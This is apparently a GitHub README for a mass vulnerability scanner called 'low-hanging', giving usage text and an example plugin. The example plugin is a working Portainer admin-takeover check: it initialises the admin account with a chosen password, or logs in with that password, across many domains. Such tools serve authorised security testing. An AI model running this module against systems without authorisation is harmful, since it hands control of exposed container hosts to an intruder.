 # low-hanging
Lightweight and extensible horizontal vulnerability scanner. Pass list of domains and check for low hanging fruits.

Made to be easily extensible. Adding more checks is just few lines of code with 
pre-initialized `requests-http` session ()with nice features like JS rendering).

Inspired by https://github.com/tomnomnom/meg, but made to be easily pluggable into your fully automated workflow.

## Usage
```bash
$ docker run s14ve/low-hanging --help
Usage: low_hanging.py [OPTIONS]

Options:
  -d, --domains TEXT     List of domains separated by newline
  -t, --threads INTEGER  Number of threads with which you want to run
  --help                 Show this message and exit.
``` 

## Adding Modules
Adding modules is quite simple, yet it requires some manual work with imports. This will get improved in the future.
For now, bear with me and check [example commit]()

## Example Module
```python
from urllib.parse import urljoin
from low_hanging.base_worker import BaseWorker

class PortainerAdmin(BaseWorker):
    name = "portainer_admin_reset"
    references = ["https://github.com/portainer/portainer/issues/493"]
    def run(self):
        r = self.session.post(
            urljoin(self.domain, "/api/users/admin/init"),
            json={"username": "admin", "password":"definitely_valid"}
        )

        if r.status_code in (404, 409):
            r = self.session.post(
                urljoin(self.domain, "/api/auth"),
                json={"username": "admin", "password":"definitely_valid"}
            )
            if r.status_code < 400:
                return r.url  # If successful, return the URL for which the exploit is valid
```
